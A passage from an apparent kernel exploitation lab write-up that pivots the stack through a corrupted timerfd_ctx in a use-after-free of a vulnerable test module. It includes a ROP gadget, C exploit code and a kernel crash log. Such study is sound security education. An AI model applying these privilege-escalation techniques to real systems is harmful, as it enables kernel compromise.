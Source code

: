 
As we can see, the kernel indeed crashes with our RIP value, which means the ROP chain can be placed at `timerfd_ctx[0]`, while the stack pivot gadget can sit at `timerfd_ctx[5]`.

This time, I was able to find a working stack pivot gadget:

```sh
// 0xffffffff81241107 : push rdi ; pop rsp ; xor eax, eax ; test edx, edx ; jle 0xffffffff81241114 ; jmp 0xffffffff81eafa50
// That jump leads to ret :D 
```

Let’s test if we can successfully pivot to a ROP chain.

```c
leak[0] = 0xdeadbeefdeadbe00ULL;
leak[5] = base_kernel_address + gadget1; // Overwrite with gadget address

if (ioctl(vuln_fd, USE_WRITE, uaf_buf) != 0) {
  printf("USE_WRITE failed\n");
  goto cleanup;
}
```

Output: 

```sh
[+] Press Enter to continue
[    2.655822] tsc: Refined TSC clocksource calibration: 3193.917 MHz
[    2.656770] clocksource: tsc: mask: 0xffffffffffffffff max_cycles: 0x2e09d7b4b0a, max_idle_ns: 440795227609 ns
[    2.657417] clocksource: Switched to clocksource tsc
[    2.680992] input: ImExPS/2 Generic Explorer Mouse as /devices/platform/i8042/serio1/input/input3
[    3.607364] kernel tried to execute NX-protected page - exploit attempt? (uid: 0)
[    3.607849] BUG: unable to handle page fault for address: ff35f6d141c05500
[    3.608281] #PF: supervisor instruction fetch in kernel mode
[    3.608569] #PF: error_code(0x0011) - permissions violation
[    3.609039] PGD 6801067 P4D 6802067 PUD 6803067 PMD 1c1f063 PTE 8000000001c05163
[    3.609723] Oops: 0011 [#1] PREEMPT SMP NOPTI
[    3.610151] CPU: 0 PID: 0 Comm: swapper/0 Tainted: G           O       6.6.16 #1
[    3.610453] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Arch Linux 1.16.3-1-1 04/01/2014
[    3.610936] RIP: 0010:0xff35f6d141c05500
[    3.611523] Code: ff ff 00 55 c0 41 d1 f6 35 ff 10 00 00 00 00 00 00 00 46 00 01 00 00 00 00 00 08 55 c0 41 d1 f6 35 ff 18 00 00 00 00 00 00 00 <00> 55 c0 41 d1 f6 35 ff 10 f7 61 47 d1 f6 35 ff 00 00 00 00 00 00
[    3.612247] RSP: 0018:ff35f6d141c05508 EFLAGS: 00010046
[    3.612469] RAX: 0000000000000000 RBX: ffffffff83441107 RCX: 0000000000000001
[    3.612746] RDX: 0000000000000000 RSI: 0000000000000002 RDI: ff35f6d141c05500
[    3.612993] RBP: ff35f6d14761f1c0 R08: ff35f6d14761f220 R09: 0000000000000000
[    3.613258] R10: 0000000000000000 R11: ff7a6da980003ff8 R12: 0000000000000002
[    3.613540] R13: ff35f6d14761f220 R14: ff35f6d141c05500 R15: ff35f6d14761f200
[    3.613933] FS:  0000000000000000(0000) GS:ff35f6d147600000(0000) knlGS:0000000000000000
```
